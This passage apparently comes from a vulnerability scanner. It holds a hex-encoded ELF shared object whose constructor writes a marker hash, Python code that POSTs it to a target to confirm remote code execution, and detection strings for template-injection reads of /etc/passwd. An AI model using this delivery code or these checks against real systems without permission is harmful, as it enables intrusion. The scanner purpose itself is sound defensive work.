00 00 00 00 00 00 16 00 00 00 12 00 0D 00 18 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 5F 5F 67 6D 6F 6E 5F 73 74 61 72 74 5F 5F 00 5F 69 6E 69 74 00 5F 66 69 6E 69 00 5F 49 54 4D 5F 64 65 72 65 67 69 73 74 65 72 54 4D 43 6C 6F 6E 65 54 61 62 6C 65 00 5F 49 54 4D 5F 72 65 67 69 73 74 65 72 54 4D 43 6C 6F 6E 65 54 61 62 6C 65 00 5F 5F 63 78 61 5F 66 69 6E 61 6C 69 7A 65 00 77 72 69 74 65 00 6C 69 62 63 2E 73 6F 2E 36 00 5F 65 64 61 74 61 00 5F 5F 62 73 73 5F 73 74 61 72 74 00 5F 65 6E 64 00 47 4C 49 42 43 5F 32 2E 32 2E 35 00 00 00 00 00 00 02 00 00 00 00 00 02 00 01 00 01 00 01 00 01 00 01 00 00 00 00 00 01 00 01 00 67 00 00 00 10 00 00 00 00 00 00 00 75 1A 69 09 00 00 02 00 89 00 00 00 00 00 00 00 08 0E 20 00 00 00 00 00 08 00 00 00 00 00 00 00 F0 05 00 00 00 00 00 00 10 0E 20 00 00 00 00 00 08 00 00 00 00 00 00 00 FA 05 00 00 00 00 00 00 18 0E 20 00 00 00 00 00 08 00 00 00 00 00 00 00 B0 05 00 00 00 00 00 00 20 10 20 00 00 00 00 00 08 00 00 00 00 00 00 00 20 10 20 00 00 00 00 00 E0 0F 20 00 00 00 00 00 06 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00 E8 0F 20 00 00 00 00 00 06 00 00 00 03 00 00 00 00 00 00 00 00 00 00 00 F0 0F 20 00 00 00 00 00 06 00 00 00 04 00 00 00 00 00 00 00 00 00 00 00 F8 0F 20 00 00 00 00 00 06 00 00 00 05 00 00 00 00 00 00 00 00 00 00 00 18 10 20 00 00 00 00 00 07 00 00 00 02 00 00 00 00 00 00 00 00 00 00 00 48 83 EC 08 48 8B 05 05 0B 20 00 48 85 C0 74 02 FF D0 48 83 C4 08 C3 00 FF 35 12 0B 20 00 FF 25 14 0B 20 00 0F 1F 40 00 FF 25 12 0B 20 00 68 00 00 00 00 E9 E0 FF FF FF FF 25 E2 0A 20 00 66 90 00 00 00 00 00 00 00 00 48 8D 3D 01 0B 20 00 55 48 8D 05 F9 0A 20 00 48 39 F8 48 89 E5 74 19 48 8B 05 A2 0A 20 00 48 85 C0 74 0D 5D FF E0 66 2E 0F 1F 84 00 00 00 00 00 5D C3 0F 1F 40 00 66 2E 0F 1F 84 00 00 00 00 00 48 8D 3D C1 0A 20 00 48 8D 35 BA 0A 20 00 55 48 29 FE 48 89 E5 48 C1 FE 03 48 89 F0 48 C1 E8 3F 48 01 C6 48 D1 FE 74 18 48 8B 05 61 0A 20 00 48 85 C0 74 0C 5D FF E0 66 0F 1F 84 00 00 00 00 00 5D C3 0F 1F 40 00 66 2E 0F 1F 84 00 00 00 00 00 80 3D 71 0A 20 00 00 75 2F 48 83 3D 37 0A 20 00 00 55 48 89 E5 74 0C 48 8B 3D 52 0A 20 00 E8 3D FF FF FF E8 48 FF FF FF C6 05 49 0A 20 00 01 5D C3 0F 1F 80 00 00 00 00 F3 C3 66 0F 1F 44 00 00 55 48 89 E5 5D E9 66 FF FF FF 55 48 89 E5 BA 2A 00 00 00 48 8D 35 1E 00 00 00 BF 01 00 00 00 E8 EC FE FF FF 90 5D C3 00 48 83 EC 08 48 83 C4 08 C3 00 00 00 00 00 00 00 74 65 73 74 76 75 6C 6E 3A 30 39 38 66 36 62 63 64 34 36 32 31 64 33 37 33 63 61 64 65 34 65 38 33 32 36 32 37 62 34 66 36 0A 00 00 01 1B 03 3B 20 00 00 00 03 00 00 00 9C FE FF FF 3C 00 00 00 BC FE FF FF 64 00 00 00 A6 FF FF FF 7C 00 00 00 14 00 00 00 00 00 00 00 01 7A 52 00 01 78 10 01 1B 0C 07 08 90 01 00 00 24 00 00 00 1C 00 00 00 58 FE FF FF 20 00 00 00 00 0E 10 46 0E 18 4A 0F 0B 77 08 80 00 3F 1A 3B 2A 33 24 22 00 00 00 00 14 00 00 00 44 00 00 00 50 FE FF FF 08 00 00 00 00 00 00 00 00 00 00 00 1C 00 00 00 5C 00 00 00 22 FF FF FF 1D 00 00 00 00 41 0E 10 86 02 43 0D 06 58 0C 07 08 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 F0 05 00 00 00 00 00 00 FA 05 00 00 00 00 00 00 B0 05 00 00 00 00 00 00 01 00 00 00 00 00 00 00 67 00 00 00 00 00 00 00 0C 00 00 00 00 00 00 00 D8 04 00 00 00 00 00 00 0D 00 00 00 00 00 00 00 18 06 00 00 00 00 00 00 19 00 00 00 00 00 00 00 08 0E 20 00 00 00 00 00 1B 00 00 00 00 00 00 00 10 00 00 00 00 00 00 00 1A 00 00 00 00 00 00 00 18 0E 20 00 00 00 00 00 1C 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 F5 FE FF 6F 00 00 00 00 F0 01 00 00 00 00 00 00 05 00 00 00 00 00 00 00 30 03 00 00 00 00 00 00 06 00 00 00 00 00 00 00 28 02 00 00 00 00 00 00 0A 00 00 00 00 00 00 00 95 00 00 00 00 00 00 00 0B 00 00 00 00 00 00 00 18 00 00 00 00 00 00 00 03 00 00 00 00 00 00 00 00 10 20 00 00 00 00 00 02 00 00 00 00 00 00 00 18 00 00 00 00 00 00 00 14 00 00 00 00 00 00 00 07 00 00 00 00 00 00 00 17 00 00 00 00 00 00 00 C0 04 00 00 00 00 00 00 07 00 00 00 00 00 00 00 00 04 00 00 00 00 00 00 08 00 00 00 00 00 00 00 C0 00 00 00 00 00 00 00 09 00 00 00 00 00 00 00 18 00 00 00 00 00 00 00 FE FF FF 6F 00 00 00 00 E0 03 00 00 00 00 00 00 FF FF FF 6F 00 00 00 00 01 00 00 00 00 00 00 00 F0 FF FF 6F 00 00 00 00 C6 03 00 00 00 00 00 00 F9 FF FF 6F 00 00 00 00 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 20 0E 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 05 00 00 00 00 00 00 20 10 20 00 00 00 00 00 47 43 43 3A 20 28 44 65 62 69 61 6E 20 37 2E 32 2E 30 2D 31 38 29 20 37 2E 32 2E 30 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 01 00 C8 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 02 00 F0 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 03 00 28 02 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 04 00 30 03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 05 00 C6 03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 06 00 E0 03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 07 00 00 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 08 00 C0 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 09 00 D8 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 0A 00 F0 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 0B 00 10 05 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 0C 00 20 05 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 0D 00 18 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 0E 00 28 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 0F 00 54 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 10 00 78 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 11 00 08 0E 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 12 00 18 0E 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 13 00 20 0E 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 14 00 E0 0F 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 15 00 00 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 16 00 20 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 17 00 28 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 03 00 18 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00 04 00 F1 FF 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 0C 00 00 00 02 00 0C 00 20 05 00 00 00 00 00 00 00 00 00 00 00 00 00 00 0E 00 00 00 02 00 0C 00 60 05 00 00 00 00 00 00 00 00 00 00 00 00 00 00 21 00 00 00 02 00 0C 00 B0 05 00 00 00 00 00 00 00 00 00 00 00 00 00 00 37 00 00 00 01 00 17 00 28 10 20 00 00 00 00 00 01 00 00 00 00 00 00 00 46 00 00 00 01 00 12 00 18 0E 20 00 00 00 00 00 00 00 00 00 00 00 00 00 6D 00 00 00 02 00 0C 00 F0 05 00 00 00 00 00 00 00 00 00 00 00 00 00 00 79 00 00 00 01 00 11 00 08 0E 20 00 00 00 00 00 00 00 00 00 00 00 00 00 98 00 00 00 04 00 F1 FF 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 A2 00 00 00 02 00 0C 00 FA 05 00 00 00 00 00 00 1D 00 00 00 00 00 00 00 01 00 00 00 04 00 F1 FF 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AE 00 00 00 01 00 10 00 F0 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 04 00 F1 FF 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 BC 00 00 00 01 00 16 00 20 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 C9 00 00 00 01 00 13 00 20 0E 20 00 00 00 00 00 00 00 00 00 00 00 00 00 D2 00 00 00 00 00 0F 00 54 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 E5 00 00 00 01 00 16 00 28 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 F1 00 00 00 01 00 15 00 00 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 07 01 00 00 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 23 01 00 00 12 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 36 01 00 00 10 00 16 00 28 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 3D 01 00 00 12 00 0D 00 18 06 00 00 00 00 00 00 00 00 00 00 00 00 00 00 43 01 00 00 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 52 01 00 00 10 00 17 00 30 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 57 01 00 00 10 00 17 00 28 10 20 00 00 00 00 00 00 00 00 00 00 00 00 00 63 01 00 00 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 7D 01 00 00 22 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 99 01 00 00 12 00 09 00 D8 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 63 72 74 73 74 75 66 66 2E 63 00 64 65 72 65 67 69 73 74 65 72 5F 74 6D 5F 63 6C 6F 6E 65 73 00 5F 5F 64 6F 5F 67 6C 6F 62 61 6C 5F 64 74 6F 72 73 5F 61 75 78 00 63 6F 6D 70 6C 65 74 65 64 2E 37 30 34 35 00 5F 5F 64 6F 5F 67 6C 6F 62 61 6C 5F 64 74 6F 72 73 5F 61 75 78 5F 66 69 6E 69 5F 61 72 72 61 79 5F 65 6E 74 72 79 00 66 72 61 6D 65 5F 64 75 6D 6D 79 00 5F 5F 66 72 61 6D 65 5F 64 75 6D 6D 79 5F 69 6E 69 74 5F 61 72 72 61 79 5F 65 6E 74 72 79 00 70 61 79 6C 6F 61 64 2E 63 00 62 65 66 6F 72 65 5F 6D 61 69 6E 00 5F 5F 46 52 41 4D 45 5F 45 4E 44 5F 5F 00 5F 5F 64 73 6F 5F 68 61 6E 64 6C 65 00 5F 44 59 4E 41 4D 49 43 00 5F 5F 47 4E 55 5F 45 48 5F 46 52 41 4D 45 5F 48 44 52 00 5F 5F 54 4D 43 5F 45 4E 44 5F 5F 00 5F 47 4C 4F 42 41 4C 5F 4F 46 46 53 45 54 5F 54 41 42 4C 45 5F 00 5F 49 54 4D 5F 64 65 72 65 67 69 73 74 65 72 54 4D 43 6C 6F 6E 65 54 61 62 6C 65 00 77 72 69 74 65 40 40 47 4C 49 42 43 5F 32 2E 32 2E 35 00 5F 65 64 61 74 61 00 5F 66 69 6E 69 00 5F 5F 67 6D 6F 6E 5F 73 74 61 72 74 5F 5F 00 5F 65 6E 64 00 5F 5F 62 73 73 5F 73 74 61 72 74 00 5F 49 54 4D 5F 72 65 67 69 73 74 65 72 54 4D 43 6C 6F 6E 65 54 61 62 6C 65 00 5F 5F 63 78 61 5F 66 69 6E 61 6C 69 7A 65 40 40 47 4C 49 42 43 5F 32 2E 32 2E 35 00 5F 69 6E 69 74 00 00 2E 73 79 6D 74 61 62 00 2E 73 74 72 74 61 62 00 2E 73 68 73 74 72 74 61 62 00 2E 6E 6F 74 65 2E 67 6E 75 2E 62 75 69 6C 64 2D 69 64 00 2E 67 6E 75 2E 68 61 73 68 00 2E 64 79 6E 73 79 6D 00 2E 64 79 6E 73 74 72 00 2E 67 6E 75 2E 76 65 72 73 69 6F 6E 00 2E 67 6E 75 2E 76 65 72 73 69 6F 6E 5F 72 00 2E 72 65 6C 61 2E 64 79 6E 00 2E 72 65 6C 61 2E 70 6C 74 00 2E 69 6E 69 74 00 2E 70 6C 74 2E 67 6F 74 00 2E 74 65 78 74 00 2E 66 69 6E 69 00 2E 72 6F 64 61 74 61 00 2E 65 68 5F 66 72 61 6D 65 5F 68 64 72 00 2E 65 68 5F 66 72 61 6D 65 00 2E 69 6E 69 74 5F 61 72 72 61 79 00 2E 66 69 6E 69 5F 61 72 72 61 79 00 2E 64 79 6E 61 6D 69 63 00 2E 67 6F 74 2E 70 6C 74 00 2E 64 61 74 61 00 2E 62 73 73 00 2E 63 6F 6D 6D 65 6E 74 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 1B 00 00 00 07 00 00 00 02 00 00 00 00 00 00 00 C8 01 00 00 00 00 00 00 C8 01 00 00 00 00 00 00 24 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 2E 00 00 00 F6 FF FF 6F 02 00 00 00 00 00 00 00 F0 01 00 00 00 00 00 00 F0 01 00 00 00 00 00 00 38 00 00 00 00 00 00 00 03 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 38 00 00 00 0B 00 00 00 02 00 00 00 00 00 00 00 28 02 00 00 00 00 00 00 28 02 00 00 00 00 00 00 08 01 00 00 00 00 00 00 04 00 00 00 01 00 00 00 08 00 00 00 00 00 00 00 18 00 00 00 00 00 00 00 40 00 00 00 03 00 00 00 02 00 00 00 00 00 00 00 30 03 00 00 00 00 00 00 30 03 00 00 00 00 00 00 95 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 00 00 00 FF FF FF 6F 02 00 00 00 00 00 00 00 C6 03 00 00 00 00 00 00 C6 03 00 00 00 00 00 00 16 00 00 00 00 00 00 00 03 00 00 00 00 00 00 00 02 00 00 00 00 00 00 00 02 00 00 00 00 00 00 00 55 00 00 00 FE FF FF 6F 02 00 00 00 00 00 00 00 E0 03 00 00 00 00 00 00 E0 03 00 00 00 00 00 00 20 00 00 00 00 00 00 00 04 00 00 00 01 00 00 00 08 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 64 00 00 00 04 00 00 00 02 00 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 04 00 00 00 00 00 00 C0 00 00 00 00 00 00 00 03 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 18 00 00 00 00 00 00 00 6E 00 00 00 04 00 00 00 42 00 00 00 00 00 00 00 C0 04 00 00 00 00 00 00 C0 04 00 00 00 00 00 00 18 00 00 00 00 00 00 00 03 00 00 00 15 00 00 00 08 00 00 00 00 00 00 00 18 00 00 00 00 00 00 00 78 00 00 00 01 00 00 00 06 00 00 00 00 00 00 00 D8 04 00 00 00 00 00 00 D8 04 00 00 00 00 00 00 17 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 73 00 00 00 01 00 00 00 06 00 00 00 00 00 00 00 F0 04 00 00 00 00 00 00 F0 04 00 00 00 00 00 00 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 10 00 00 00 00 00 00 00 10 00 00 00 00 00 00 00 7E 00 00 00 01 00 00 00 06 00 00 00 00 00 00 00 10 05 00 00 00 00 00 00 10 05 00 00 00 00 00 00 08 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 87 00 00 00 01 00 00 00 06 00 00 00 00 00 00 00 20 05 00 00 00 00 00 00 20 05 00 00 00 00 00 00 F7 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 8D 00 00 00 01 00 00 00 06 00 00 00 00 00 00 00 18 06 00 00 00 00 00 00 18 06 00 00 00 00 00 00 09 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 93 00 00 00 01 00 00 00 02 00 00 00 00 00 00 00 28 06 00 00 00 00 00 00 28 06 00 00 00 00 00 00 2B 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 9B 00 00 00 01 00 00 00 02 00 00 00 00 00 00 00 54 06 00 00 00 00 00 00 54 06 00 00 00 00 00 00 24 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 A9 00 00 00 01 00 00 00 02 00 00 00 00 00 00 00 78 06 00 00 00 00 00 00 78 06 00 00 00 00 00 00 7C 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 B3 00 00 00 0E 00 00 00 03 00 00 00 00 00 00 00 08 0E 20 00 00 00 00 00 08 0E 00 00 00 00 00 00 10 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 BF 00 00 00 0F 00 00 00 03 00 00 00 00 00 00 00 18 0E 20 00 00 00 00 00 18 0E 00 00 00 00 00 00 08 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 CB 00 00 00 06 00 00 00 03 00 00 00 00 00 00 00 20 0E 20 00 00 00 00 00 20 0E 00 00 00 00 00 00 C0 01 00 00 00 00 00 00 04 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 10 00 00 00 00 00 00 00 82 00 00 00 01 00 00 00 03 00 00 00 00 00 00 00 E0 0F 20 00 00 00 00 00 E0 0F 00 00 00 00 00 00 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 D4 00 00 00 01 00 00 00 03 00 00 00 00 00 00 00 00 10 20 00 00 00 00 00 00 10 00 00 00 00 00 00 20 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 DD 00 00 00 01 00 00 00 03 00 00 00 00 00 00 00 20 10 20 00 00 00 00 00 20 10 00 00 00 00 00 00 08 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 08 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 E3 00 00 00 08 00 00 00 03 00 00 00 00 00 00 00 28 10 20 00 00 00 00 00 28 10 00 00 00 00 00 00 08 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 E8 00 00 00 01 00 00 00 30 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 28 10 00 00 00 00 00 00 1D 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00 00 00 00 00 01 00 00 00 00 00 00 00 01 00 00 00 02 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 48 10 00 00 00 00 00 00 F8 04 00 00 00 00 00 00 1A 00 00 00 2B 00 00 00 08 00 00 00 00 00 00 00 18 00 00 00 00 00 00 00 09 00 00 00 03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 40 15 00 00 00 00 00 00 9F 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 11 00 00 00 03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 DF 16 00 00 00 00 00 00 F1 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00"
            data = data.replace(' ','')
            data = binascii.a2b_hex(data)
            req = requests.post(vulnurl, data=data, headers=headers, timeout=timeout, verify=False)
            if r"098f6bcd4621d373cade4e832627b4f6" in str(req.headers):
                self.bugaddr = vulnurl
                return True
        except Exception as e:
            print(e)

```

模板注入的payload和检测文本 
```python 
self.checkkey_list = ['646744516', '/sbin/nologin', '/bin/bash']
payloads_list = []
